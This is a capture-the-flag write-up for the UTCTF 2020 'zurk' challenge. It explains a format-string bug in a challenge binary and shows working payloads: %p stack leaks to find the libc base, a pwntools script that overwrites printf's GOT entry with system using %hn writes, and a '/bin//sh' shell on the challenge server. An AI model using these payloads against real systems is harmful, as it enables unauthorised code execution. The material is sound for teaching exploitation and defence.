

# UTCTF 2020

## zurk

> zurk
> 
> 657
>
> `nc binary.utctf.live 9003`
>
> by: hk
>
> [`zurk`](zurk) [`libc-2.23.so`](libc-2.23.so)

Tags: _pwnable_

### Research

#### Decompile with Ghidra

Decompiling with Ghidra reveals a `main` with an endless `do_move()` loop:


Scanning through `do_move` there's a `printf` with no format string.  That is the vulnerability.  And since `fgets` is used with size argument of `0x32` we're limited to 50 byte attacks/loop.


#### Checksec


Ok, pretty wide open to many types of attacks.  Be creative.


### Exploit

#### Attack Plan

1. Leak `libc` address.  Even with _No PIE_, `libc` will still use ASLR (type `ldd zurk` and see how it changes).  So, if we want to use `libc` we'll need to leak its address first.
2. Overwrite GOT/PLT `printf` with address of `system`.  Thanks _Partial RELRO!_
3. On next _What would you like to do?_ prompt, politely send `/bin//sh`.  That is what we want--Right?
4. Get the flag.


#### Prep

To make things a bit easier Google for OSes that use `libc-2.23.so` and create a Docker container with that OS.  I used Ubuntu 16.04.

> NOTE: I tried `patchelf` and `gdb` settings to use the provided challenge `libc-2.23.so` in an Ubuntu 19.10 container with limited success, in the interest of time I just built a 16.04 container.


#### Leak `libc` address

Startup `gdb` + enhancements (using `gef` myself) and `disas do_move`:

```
gef➤  file zurk
Reading symbols from zurk...(no debugging symbols found)...done.
gef➤  disas do_move
Dump of assembler code for function do_move:
   0x00000000004006c5 <+0>:	push   rbp
   0x00000000004006c6 <+1>:	mov    rbp,rsp
   0x00000000004006c9 <+4>:	sub    rsp,0x40
   0x00000000004006cd <+8>:	mov    edi,0x400897
   0x00000000004006d2 <+13>:	call   0x400520 <puts@plt>
   0x00000000004006d7 <+18>:	mov    rdx,QWORD PTR [rip+0x200982]        # 0x601060 <stdin@@GLIBC_2.2.5>
   0x00000000004006de <+25>:	lea    rax,[rbp-0x40]
   0x00000000004006e2 <+29>:	mov    esi,0x32
   0x00000000004006e7 <+34>:	mov    rdi,rax
   0x00000000004006ea <+37>:	call   0x400560 <fgets@plt>
   0x00000000004006ef <+42>:	lea    rax,[rbp-0x40]
   0x00000000004006f3 <+46>:	mov    esi,0x4008b2
   0x00000000004006f8 <+51>:	mov    rdi,rax
   0x00000000004006fb <+54>:	call   0x400540 <strcspn@plt>
   0x0000000000400700 <+59>:	mov    BYTE PTR [rbp+rax*1-0x40],0x0
   0x0000000000400705 <+64>:	lea    rax,[rbp-0x40]
   0x0000000000400709 <+68>:	mov    esi,0x4008b4
   0x000000000040070e <+73>:	mov    rdi,rax
   0x0000000000400711 <+76>:	call   0x400570 <strcmp@plt>
   0x0000000000400716 <+81>:	test   eax,eax
   0x0000000000400718 <+83>:	jne    0x400730 <do_move+107>
   0x000000000040071a <+85>:	mov    edi,0x4008c0
   0x000000000040071f <+90>:	call   0x400520 <puts@plt>
   0x0000000000400724 <+95>:	mov    edi,0x400858
   0x0000000000400729 <+100>:	call   0x400520 <puts@plt>
   0x000000000040072e <+105>:	jmp    0x400776 <do_move+177>
   0x0000000000400730 <+107>:	lea    rax,[rbp-0x40]
   0x0000000000400734 <+111>:	mov    esi,0x4008f8
   0x0000000000400739 <+116>:	mov    rdi,rax
   0x000000000040073c <+119>:	call   0x400570 <strcmp@plt>
   0x0000000000400741 <+124>:	test   eax,eax
   0x0000000000400743 <+126>:	jne    0x40075b <do_move+150>
   0x0000000000400745 <+128>:	mov    edi,0x400900
   0x000000000040074a <+133>:	call   0x400520 <puts@plt>
   0x000000000040074f <+138>:	mov    edi,0x400858
   0x0000000000400754 <+143>:	call   0x400520 <puts@plt>
   0x0000000000400759 <+148>:	jmp    0x400776 <do_move+177>
   0x000000000040075b <+150>:	lea    rax,[rbp-0x40]
   0x000000000040075f <+154>:	mov    rdi,rax
   0x0000000000400762 <+157>:	mov    eax,0x0
   0x0000000000400767 <+162>:	call   0x400530 <printf@plt>
   0x000000000040076c <+167>:	mov    edi,0x400938
   0x0000000000400771 <+172>:	call   0x400520 <puts@plt>
   0x0000000000400776 <+177>:	nop
   0x0000000000400777 <+178>:	leave
   0x0000000000400778 <+179>:	ret
End of assembler dump.
```

Set breakpoints at `printf` and the `puts` below it:

```
gef➤  b *do_move+162
Breakpoint 1 at 0x400767
gef➤  b *do_move+172
Breakpoint 2 at 0x400771
```

Now run it:

```
gef➤  run
Starting program: /pwd/datajerk/utctf2020/zurk/zurk
Welcome to the game of Zurk!
You awaken in a cave dimly lit by torches.
The cave two tunnels, one going east and the other going west.
What would you like to do?
```

Enter 16 `%p` delimited with spaces; that will be 48 chars--there isn't room for 17.

```
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
```



You should see something like this ^^.

Enter `c` to continue to the next break point.  Then enter `n` to get the output:

```
gef➤  n
Single stepping until exit from function do_move,
which has no line number information.
0x4008f8 0x67 0xf 0x7fffffffe590 0x7025207025207025 0x7025207025207025
0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520
0x70252070252070 0x400500 0x4006c2 0x7fffffffe5e0 0x40069e 0x400780 is not a
valid instruction.
0x000000000040069e in main ()
```

The `printf` statement does not have a format string, and `printf` has no way to determine if your input is just a string, or a format string.  The `%p` is a format string flag character.  Specifically _the void * pointer argument is printed in hexadecimal (as if by %#x or %#lx)_ flag character. But what if we didn't pass it an argument?  `printf` doesn't care, it behaves as it was intended to behave.

The output `0x4008f8 0x67 0xf 0x7fffffffe590 0x7025207025207025 0x7025207025207025 ...` returned by `printf` are the registers and stack `printf` expects to find passed arguments.

Look at the image above (taken before `printf` called), notice the following registers and values match (I've positioned them in the same order as the output `0x4008f8 0x67 0xf 0x7fffffffe590 0x7025207025207025`):

```
$rsi   : 0x4008f8
$rdx   : 0x67
$rcx   : 0xf
$r8    : 0x7fffffffe590
$r9    : 0x7025207025207025 ("%p %p %p"?)
``` 

Now look at the stack, its contains the string that `printf` will, well, print.  The `70` `25` `20` repeating patter is ASCII for `p` `%` ` ` (space).  Continue to follow along and you'll find `0x400500` and  `0x4006c2` also in the stack, and the values after that are further down the stack.  The more `%p` you send the more you can leak from the stack.


```
0x00007fffffffe590│+0x0000: "%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p" ← $rsp, $rdi, $r8
0x00007fffffffe598│+0x0008: "%p %p %p %p %p %p %p %p %p %p %p %p %p"
0x00007fffffffe5a0│+0x0010: "p %p %p %p %p %p %p %p %p %p %p"
0x00007fffffffe5a8│+0x0018: "%p %p %p %p %p %p %p %p"
0x00007fffffffe5b0│+0x0020: "%p %p %p %p %p"
0x00007fffffffe5b8│+0x0028: 0x0070252070252070 ("p %p %p"?)
0x00007fffffffe5c0│+0x0030: 0x0000000000400500  →  <_init+16> call 0x400580
0x00007fffffffe5c8│+0x0038: 0x00000000004006c2  →  <welcome+34> nop
```

Why this behavior is pretty easy to explain, just `disas printf`:

```
gef➤  disas printf
Dump of assembler code for function printf:
   0x00007ffff7a62800 <+0>:	sub    rsp,0xd8
   0x00007ffff7a62807 <+7>:	test   al,al
   0x00007ffff7a62809 <+9>:	mov    QWORD PTR [rsp+0x28],rsi
   0x00007ffff7a6280e <+14>:	mov    QWORD PTR [rsp+0x30],rdx
   0x00007ffff7a62813 <+19>:	mov    QWORD PTR [rsp+0x38],rcx
   0x00007ffff7a62818 <+24>:	mov    QWORD PTR [rsp+0x40],r8
   0x00007ffff7a6281d <+29>:	mov    QWORD PTR [rsp+0x48],r9
   0x00007ffff7a62822 <+34>:	je     0x7ffff7a6285b <printf+91>
   0x00007ffff7a62824 <+36>:	movaps XMMWORD PTR [rsp+0x50],xmm0
   0x00007ffff7a62829 <+41>:	movaps XMMWORD PTR [rsp+0x60],xmm1
   0x00007ffff7a6282e <+46>:	movaps XMMWORD PTR [rsp+0x70],xmm2
   0x00007ffff7a62833 <+51>:	movaps XMMWORD PTR [rsp+0x80],xmm3
   0x00007ffff7a6283b <+59>:	movaps XMMWORD PTR [rsp+0x90],xmm4
   0x00007ffff7a62843 <+67>:	movaps XMMWORD PTR [rsp+0xa0],xmm5
   0x00007ffff7a6284b <+75>:	movaps XMMWORD PTR [rsp+0xb0],xmm6
   0x00007ffff7a62853 <+83>:	movaps XMMWORD PTR [rsp+0xc0],xmm7
   0x00007ffff7a6285b <+91>:	lea    rax,[rsp+0xe0]
   0x00007ffff7a62863 <+99>:	mov    rsi,rdi
   0x00007ffff7a62866 <+102>:	lea    rdx,[rsp+0x8]
   0x00007ffff7a6286b <+107>:	mov    QWORD PTR [rsp+0x10],rax
   0x00007ffff7a62870 <+112>:	lea    rax,[rsp+0x20]
   0x00007ffff7a62875 <+117>:	mov    DWORD PTR [rsp+0x8],0x8
   0x00007ffff7a6287d <+125>:	mov    DWORD PTR [rsp+0xc],0x30
   0x00007ffff7a62885 <+133>:	mov    QWORD PTR [rsp+0x18],rax
   0x00007ffff7a6288a <+138>:	mov    rax,QWORD PTR [rip+0x36e6bf]        # 0x7ffff7dd0f50
   0x00007ffff7a62891 <+145>:	mov    rdi,QWORD PTR [rax]
   0x00007ffff7a62894 <+148>:	call   0x7ffff7a5a170 <vfprintf>
   0x00007ffff7a62899 <+153>:	add    rsp,0xd8
   0x00007ffff7a628a0 <+160>:	ret
End of assembler dump.
```

`printf` is looking for arguments in `rsi`, `rdx`, `rcx`, `r8`, `r9`, stack.

This is all pretty academic.  All we really need to know is _our content on the stack starts at position 6_.  And, we can go down as far as we like.  To get around the limits of the `fgets` size of 50 chars use `%17$p` to get to the 17th value.

Enter `c` to continue `zurk` then enter `%17$p`, then `c` to print the output:

```
gef➤  c
Continuing.
0x7ffff7a2d830 is not a valid instruction.
```

This time we only got one value, the 17th value.  This looks interesting (if the 17th value does NOT look that interesting to you, check 18, 19, 20, ...), its not around the stack and the address looks close to the `printf` output above.  This is code.  Disassemble it:


```
gef➤  disas 0x7ffff7a2d830
Dump of assembler code for function __libc_start_main:
   0x00007ffff7a2d740 <+0>:	push   r14
   0x00007ffff7a2d742 <+2>:	push   r13
   0x00007ffff7a2d744 <+4>:	push   r12
   0x00007ffff7a2d746 <+6>:	push   rbp
   
...   
   
   0x00007ffff7a2d822 <+226>:	mov    edi,DWORD PTR [rsp+0x14]
   0x00007ffff7a2d826 <+230>:	mov    rdx,QWORD PTR [rax]
   0x00007ffff7a2d829 <+233>:	mov    rax,QWORD PTR [rsp+0x18]
   0x00007ffff7a2d82e <+238>:	call   rax
   0x00007ffff7a2d830 <+240>:	mov    edi,eax
  
...  
   
   0x00007ffff7a2d8fc <+444>:	mov    r13,QWORD PTR [r13+0x40]
   0x00007ffff7a2d900 <+448>:	cmp    r14d,r12d
   0x00007ffff7a2d903 <+451>:	jne    0x7ffff7a2d8df <__libc_start_main+415>
   0x00007ffff7a2d905 <+453>:	jmp    0x7ffff7a2d7d6 <__libc_start_main+150>
End of assembler dump.
```

We just found `__libc_start_main`, and our leaked address is `+240` bytes down.

Using [pwntools](https://docs.pwntools.com/en/stable/) it will be trivial to find the base of `libc`:

```
from pwn import *

libc = ELF('libc-2.23.so')

p = process('./zurk')
p.recvuntil('to do?')
p.sendline('%17$p')
__libc_start_main = int(p.recvuntil('to do?').split()[0],0) - 240
__libc_start_main_offset = libc.symbols['__libc_start_main']
base = __libc_start_main - __libc_start_main_offset
```

Basically send `%17$p` to `zurk`, then capture the leaked address, subtract _240_, then subtract the location of `__libc_start_main` from `libc-2.23.so`.

> NOTE: The version of _libc_ matters.  E.g. with 2.30 the delta was _243_.  Use the `libc` provided with the challenges.

We now know where the base of `libc` is in RAM.

> TIP: `ldd zurk`, and look at the `libc.so` location, it changes (ASLR), but also notices it ends in `000`.  Our computed base better also end in `000`.  Use that to debug.


#### Overwrite GOT/PLT `printf` with address of `system`

`printf` is not part of `zurk`; it's part of `libc`, `zurk` just uses it.  Because `zurk` is dynamically linked `zurk` does not know the address of `printf`.  But `zurk` knows where to look for the address of `printf` when it needs it and expects the kernel at runtime to populate it.  This lookup table _location_ is determined at compile time and is static, and, can be exploited:

Dissemble `do_move`:

```
gef➤  disas do_move
Dump of assembler code for function do_move:
   0x00000000004006c5 <+0>:	push   rbp
   0x00000000004006c6 <+1>:	mov    rbp,rsp
   0x00000000004006c9 <+4>:	sub    rsp,0x40
   0x00000000004006cd <+8>:	mov    edi,0x400897
   0x00000000004006d2 <+13>:	call   0x400520 <puts@plt>
   0x00000000004006d7 <+18>:	mov    rdx,QWORD PTR [rip+0x200982]        # 0x601060 <stdin@@GLIBC_2.2.5>
   0x00000000004006de <+25>:	lea    rax,[rbp-0x40]
   0x00000000004006e2 <+29>:	mov    esi,0x32
   0x00000000004006e7 <+34>:	mov    rdi,rax
   0x00000000004006ea <+37>:	call   0x400560 <fgets@plt>
   0x00000000004006ef <+42>:	lea    rax,[rbp-0x40]
   0x00000000004006f3 <+46>:	mov    esi,0x4008b2
   0x00000000004006f8 <+51>:	mov    rdi,rax
   0x00000000004006fb <+54>:	call   0x400540 <strcspn@plt>
   0x0000000000400700 <+59>:	mov    BYTE PTR [rbp+rax*1-0x40],0x0
   0x0000000000400705 <+64>:	lea    rax,[rbp-0x40]
   0x0000000000400709 <+68>:	mov    esi,0x4008b4
   0x000000000040070e <+73>:	mov    rdi,rax
   0x0000000000400711 <+76>:	call   0x400570 <strcmp@plt>
   0x0000000000400716 <+81>:	test   eax,eax
   0x0000000000400718 <+83>:	jne    0x400730 <do_move+107>
   0x000000000040071a <+85>:	mov    edi,0x4008c0
   0x000000000040071f <+90>:	call   0x400520 <puts@plt>
   0x0000000000400724 <+95>:	mov    edi,0x400858
   0x0000000000400729 <+100>:	call   0x400520 <puts@plt>
   0x000000000040072e <+105>:	jmp    0x400776 <do_move+177>
   0x0000000000400730 <+107>:	lea    rax,[rbp-0x40]
   0x0000000000400734 <+111>:	mov    esi,0x4008f8
   0x0000000000400739 <+116>:	mov    rdi,rax
   0x000000000040073c <+119>:	call   0x400570 <strcmp@plt>
   0x0000000000400741 <+124>:	test   eax,eax
   0x0000000000400743 <+126>:	jne    0x40075b <do_move+150>
   0x0000000000400745 <+128>:	mov    edi,0x400900
   0x000000000040074a <+133>:	call   0x400520 <puts@plt>
   0x000000000040074f <+138>:	mov    edi,0x400858
   0x0000000000400754 <+143>:	call   0x400520 <puts@plt>
   0x0000000000400759 <+148>:	jmp    0x400776 <do_move+177>
   0x000000000040075b <+150>:	lea    rax,[rbp-0x40]
   0x000000000040075f <+154>:	mov    rdi,rax
   0x0000000000400762 <+157>:	mov    eax,0x0
   0x0000000000400767 <+162>:	call   0x400530 <printf@plt>
   0x000000000040076c <+167>:	mov    edi,0x400938
   0x0000000000400771 <+172>:	call   0x400520 <puts@plt>
   0x0000000000400776 <+177>:	nop
   0x0000000000400777 <+178>:	leave
   0x0000000000400778 <+179>:	ret
```

Look at line `+162`, see the call to `0x400530`?  Dissemble that:

```
gef➤  disas 0x400530
Dump of assembler code for function printf@plt:
   0x0000000000400530 <+0>:	jmp    QWORD PTR [rip+0x200aea]        # 0x601020
   0x0000000000400536 <+6>:	push   0x1
   0x000000000040053b <+11>:	jmp    0x400510
End of assembler dump.
```

`0x601020`.  That, is where we need to write the location of the `system` call, so that on the next go around our input to `fgets` will not be displayed by `printf` but will instead be executed by `system`.  To perform the write we'll use that `printf` companion to `%p`, `%n`.

From the `printf` man page:

> Code  such as printf(foo); often indicates a bug, since foo may contain a % character.  If foo comes from untrusted user input, it may contain %n, causing the printf() call to write to memory and creating a security hole.

Also from the `printf` man page:

>The number of characters written so far is stored into the integer pointed  to  by  the  corresponding  argument. That argument shall be an int *, or variant whose size matches the (optionally) supplied integer length modifier. No argument is converted.  (This specifier is not supported by the bionic C library.)  The behavior is  undefined if the conversion specification includes any flags, a field width, or a precision.

To use `%n`, first we have to write the number of bytes equal to the value we want to write to memory, as well as pass a memory location argument.  We've already seen with `%p` above how to do the later.

To write a bunch of bytes within the limitation of the `50` bytes constrained by `zurk`'s `fget` use `%Nx`, where `N` is the number of bytes.

Easier said with code:

```
__libc_system = libc.symbols['system']
address = base + __libc_system
words=[ address & 0xFFFF, (address >> 16) & 0xFFFF ]

assert(words[0] < words[1])

payload = ""
payload += "%" + str(words[0]).rjust(6,'0') + "x"
payload += "%0010$hn"
payload += "%" + str(words[1]-words[0]).rjust(6,'0') + "x"
payload += "%0011$hn"
payload += struct.pack("<Q",0x601020)
payload += struct.pack("<Q",0x601020 + 2)

p.sendline(payload)
```

By hand we figured out where to write, but still need the what, i.e. the offset to the `system` call in `libc`.  The code above will extract that from `libc-2.23.so` add it to the base and then assign the lower 32-bits to `words[0]` and `words[1]`, e.g. if `address` = `0x7efce1b38390`, then `words[0]` = `0x8390` and `words[1]` = `0xe1b3`.

> NOTE: `words[1]` must be greater than `words[0]` in this example, more robust code can be written, or you can just run a 2nd time and get lucky, this is a CTF, time matters. :-)

It is important to keep your attack string stack aligned; each section is 8 bytes.  Above the string (based on the `address` example given) will be: `%033680x%0010$hn%024099x%0011$hn` followed by `0x601020` as a 64-bit little endian string of 8 bytes, followed by `0x601022` as a 64-bit little endian string of 8 bytes.

Stack:

```
6:    %033680x
7:    %0010$hn
8:    %024099x
9:    %0011$hn
10:   \x20\x10\x60\x00\x00\x00\x00\x00
11:   \x22\x10\x60\x00\x00\x00\x00\x00
```

`printf` will emit 33680 (`0x8390`) spaces and then write `0x8390` to address `0x601020`--the `%0010$hn` does that magic. The `10` is the location on the stack of `0x601020`--remember our string starts at `%6p`.

For the next write to memory we have to subtract the first address from the 2nd because the internal `printf` char counter cannot be reset, to write out `0xe1be` we have to subtract `0x8390`.  This is why the `assert` statement above.

The addresses must be at the end of the string, as `printf` parses the format string it will end on a null (`\x00`) byte.  `fgets` however will happily write our null bytes to the stack, but not `\n`.

The `h` before the `n` instructs `printf` to write out the counter at the specified memory address as a `short`, IOW 16 bits.  Breaking up this into two writes is much faster than waiting for `printf` to print `0xe1b38390` (3786638224) spaces (3.5 GB!).  This method only prints 57779 spaces.  FYI, `hhn` can be used for a single byte, however that would be 4 operations.  The above is at 48 char, and this challenge is limited to 50.  Clearly the organizers set us up (the good way).

After `printf` is called and parses this format string, the GOT/PLT has been updated to call `system` instead of `printf`.

Time for one last round.


#### Politely send `/bin//sh`

```
p.recvuntil('What would you like to do?')
p.sendline('/bin//sh')
p.interactive()
```

You may have seen this before, `/bin//sh`, a common string used with `system` exploits, IOW, we need that to be 8 bytes long.


#### Get the flag

```
root@a24709512af0:/pwd/datajerk/utctf2020/zurk# ./exploit.py
[*] '/pwd/datajerk/utctf2020/zurk/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to binary.utctf.live on port 9003: Done
[*] Switching to interactive mode
$ id
uid=1000(zurk) gid=1000(zurk) groups=1000(zurk)
$ ls -l
total 4
-rw-r--r-- 1 root root 38 Mar  9 01:05 flag.txt
$ cat flag.txt
utflag{wtf_i_h4d_n0_buffer_overflows}
```

Flag: `utflag{wtf_i_h4d_n0_buffer_overflows}`


